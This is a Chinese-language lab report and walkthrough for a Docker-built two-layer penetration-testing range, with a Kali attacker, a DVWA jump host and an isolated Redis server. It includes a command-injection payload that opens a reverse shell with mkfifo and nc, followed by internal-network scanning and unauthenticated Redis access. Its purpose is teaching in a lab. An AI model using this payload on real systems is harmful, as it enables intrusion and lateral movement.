```
docker 组网 搭建 至少二层 综合渗透环境 二层不出网，至少3台机器
实验报告：
1.网络拓扑
2.搭建过程记录
3.综合渗透靶场的wp
```

**DMZ区（隔离区）+ 内网区**

- **第一层**: 暴露在外的服务，比如 Web 服务器。它可以被外部（攻击者）直接访问。我们称之为“边界网络”或“DMZ”。
- **第二层**: 核心的内部服务，比如数据库、后台应用等。这些服务绝对不能被外部直接访问，只能由第一层的机器（比如 Web 服务器）来访问。我们称之为“核心内网”。

**二层不出网**

- 这是一个非常关键且真实的安全设定。意思是处于第二层网络（核心内网）的机器，**不能访问互联网**。这可以防止被攻陷的内网服务器直接从外部下载恶意软件或将数据传出。在 Docker 中，可以通过创建 `internal` 网络来实现。

**至少3台机器**

- 最小规模：
  1. **攻击机**: 模拟黑客，用来发起攻击。
  2. **Web服务器**: 位于第一层，有一个对外可访问的Web应用，并且存在漏洞。这台机器是进入内网的跳板。
  3. **内网服务器: 位于第二层，提供数据库或其他服务，只能被 Web 服务器访问。

___

## 设计

**网络设计**:

- **`frontend-net`**: 前端网络，用于连接 **攻击机** 和 **Web服务器**。这是一个普通的 `bridge` 网络。
- **`backend-net`**: 后端网络，用于连接 **Web服务器** 和 **内网数据库服务器**。这是一个 `internal` 网络，实现“二层不出网”。

**容器设计**:

- **`attacker` (攻击机)**: 使用 `kali-linux/kali-rolling` 镜像。它连接到 `frontend-net`。
- **`web-server` (Web服务器 / 跳板机)**:
  - **镜像**: 从 `vulhub` 项目中寻找一个合适的漏洞环境，比如 `vulhub/phpmyadmin/CVE-2018-12613` (文件包含漏洞) 或者 `vulhub/weblogic/ssrf` (SSRF漏洞)。这些镜像本身就带漏洞，开箱即用。
  - **网络**: 这台机器是关键，它必须 **同时连接** `frontend-net` 和 `backend-net`，拥有两个虚拟网卡。
- **`db-server` (内网数据库)**:
  - **镜像**: 使用官方的 `redis:alpine` 镜像。Redis 默认无密码认证，非常适合作为内网的初级靶标。
  - **网络**: 只连接到 `backend-net`。

___

## 过程

### 创建虚拟网络

```shell
docker network create --subnet=192.168.100.0/24 frontend-net
//cf6dd0a37a42eda6ef83e2c8b5167085f5efc1e8c744e42f96411d37e96c68f0

docker network create --internal --subnet=10.20.30.0/24 backend-net 
//0e4750c4e12928f9630ca825423f7a936d5112aecb8b0a85efdb6700449b5e65
```

### 启动内网数据库服务器

```
# 启动一个 Redis 容器，并只连接到后端网络
# --hostname 让我们可以通过名字访问它
docker run -d --name db-server --network backend-net --hostname db-redis redis:alpine
```



验证：`db-server` 无法 `ping` 通外网。



### 启动存在漏洞的 Web 服务器

```
# 启动 citizenstig/dvwa 容器，先连接到前端网络
# 将容器的80端口映射到主机的8000端口，这样攻击者可以访问
docker run -d -p 8000:80 --name web-server --network frontend-net citizenstig/dvwa

# 将这个正在运行的容器再连接到后端网络，使其成为跳板
docker network connect backend-net web-server
```





验证：进入 `web-server` 容器内部，应该能看到两个网卡，并且可以 `ping` 通 `db-server`（内网）和外网。







### 启动攻击机，连接到前端网络，并进入交互式shell




可ping到web-server




在kali攻击机中监听5566端口：



利用web-server的命令执行漏洞执行以下命令：

```
127.0.0.1; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.100.3 5566 > /tmp/f
```

反弹shell成功：



通过ip addr命令发现有其他网段：



通过for循环ping该网段内的ip，发现10.20.30.3



发现10.20.30.3的6379端口存活，redis服务



通过`nc 10.20.30.3 6379`命令连接

输入info，redis信息显示出来：


